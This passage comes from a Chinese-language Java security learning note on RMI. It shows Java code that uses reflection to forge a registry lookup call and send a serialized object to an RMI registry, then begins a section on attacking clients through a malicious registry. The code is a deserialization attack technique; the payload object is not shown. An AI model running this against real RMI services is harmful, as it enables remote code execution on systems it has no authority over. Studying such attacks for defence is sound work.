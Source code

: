 ```java
        Registry registry = LocateRegistry.getRegistry("localhost", 3333);

        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);


        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
}
```

![Demo2结果](./Java安全学习-RMI学习/47.png)

## 攻击客户端
### 注册中心攻击客户端
在通信过程中, `RMI`与注册中心以及服务端进行了交互, 我们可以对这两者做手脚, 从而达到攻击客户端的目的. 对于注册中心来说, 还是从之前的五个方法触发:
 - bind
 - unbind
 - rebind
 - list
 - lookup
